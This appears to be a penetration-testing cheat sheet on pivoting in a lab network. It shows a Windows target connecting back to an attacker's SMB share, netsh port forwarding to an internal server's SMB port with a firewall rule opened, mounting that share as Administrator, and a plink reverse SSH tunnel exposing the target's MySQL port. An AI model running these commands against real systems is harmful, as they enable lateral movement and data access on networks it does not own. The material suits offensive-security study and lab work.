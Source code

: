  On Windows host (target machine connecting back to your new smb share)
 ```
 net use k: \\192.168.119.152\kali /user:kali kali
The command completed successfully.


C:\>k:

K:\>
```

# Port forwarding

## netsh
We are trying to forward traffic on local socket 192.168.152.10:4455 to remote socket 172.16.152.5:445

Windows 2016 Server: 172.16.152.5
Windows 10 Client: 192.168.152.10

### Forward traffic from local port 4455 to remote machine
```
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=192.168.152.10 connectport=445 connectaddress=172.16.152.5
```

### Permit traffic from anywhere to local port 4455
```
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=192.168.152.10 localport=4455 action=allow
```

### Verify Attacker Machines uses SMB2
```
$ grep "SMB2" "/etc/samba/smb.conf"
min protocol = SMB2
```

### Mount the Win10 Share on the Attacker box
```
sudo mkdir /mnt/win10_share
sudo mount -t cifs -o port=4455 //192.168.152.10/Data -o username=Administrator,password=lab /mnt/win10_share
ls -l /mnt/win10_share/
```

## plink.exe
To forward local port 3306 (from target) to the attacker (192.168.119.152) local port 1235 run the following command:
```
cmd /c echo y | plink.exe -batch -ssh -l kali -pw kali -R 192.168.119.152:1235:127.0.0.1:3306 192.168.119.152
```
